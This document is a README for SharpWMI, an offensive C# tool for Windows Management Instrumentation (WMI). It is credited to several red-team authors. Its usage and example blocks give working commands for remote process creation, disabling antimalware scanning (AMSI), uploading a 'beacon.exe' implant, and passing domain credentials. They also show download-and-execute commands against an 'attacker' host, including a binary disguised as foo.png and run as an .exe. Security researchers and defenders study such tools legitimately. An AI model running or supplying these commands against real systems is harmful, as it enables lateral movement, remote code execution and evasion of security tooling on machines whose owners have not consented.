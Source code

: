 
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods. 

[@harmj0y](https://twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
  Local system enumeration:
    SharpWMI.exe action=query query="select * from win32_service" [namespace=BLAH]

  Remote system enumeration:
    SharpWMI.exe action=query computername=HOST1[,HOST2,...] query="select * from win32_service" [namespace=BLAH]

  Remote process creation:
    SharpWMI.exe action=exec computername=HOST[,HOST2,...] command="C:\\temp\\process.exe [args]" [amsi=disable] [result=true]

  Remote VBS execution:
    SharpWMI.exe action=executevbs computername=HOST[,HOST2,...] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

  File upload via WMI:
    SharpWMI.exe action=upload computername=HOST[,HOST2,...] source="C:\\source\\file.exe" dest="C:\\temp\\dest-file.exe" [amsi=disable]

NOTE:
  Any remote function also takes an optional "username=DOMAIN\\user" "password=Password123!"
```

### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in `[script-specification]` offers following methods to point this tool at target VBS code:

```
  A) Executes OS command via preset VBS code:
    SharpWMI.exe action=executevbs [...] command="notepad.exe"

  B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
    SharpWMI.exe action=executevbs [...] url="http://attacker/myscript.ps1"

  C) Download a binary file from given URL, store it in specified path and then execute it:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe"

  D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

  E) Read VBS script from file and execute it:
    SharpWMI.exe action=executevbs [...] script="myscript.vbs"

  F) Execute given VBS script given literally:
    SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

  G) Base64 decode input string being encoded VBS script and execute it on remote machine:
    SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

  H) Read contents of given file, base64 decode them and then execute on target machine:
    SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

  Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
    SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
  SharpWMI.exe action=query query ="select * from win32_process"

  SharpWMI.exe action=query query="SELECT * FROM AntiVirusProduct" namespace="root\\SecurityCenter2"

  SharpWMI.exe action=query computername=primary.testlab.local query="select * from win32_service"

  SharpWMI.exe action=query computername=primary,secondary query="select * from win32_process"

  SharpWMI.exe action=exec computername=primary.testlab.local command="powershell.exe -enc ZQBj..."

  SharpWMI.exe action=exec computername=primary.testlab.local command="whoami" result=true amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local command="notepad.exe" eventname="MyLittleEvent" amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local username="TESTLAB\\harmj0y" password="Password123!" script="myscript.vbs"

  SharpWMI.exe action=upload computername=primary.testlab.local source="beacon.exe" dest="C:\\Windows\\temp\\foo.exe" amsi=disable
```


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself :)

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution  |Author  |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https://github.com/harmj0y)  |
|WMI code-exec output idea |[Evi1cg @Ridter](https://github.com/Ridter)  |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https://github.com/0xthirteen)  |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky)  |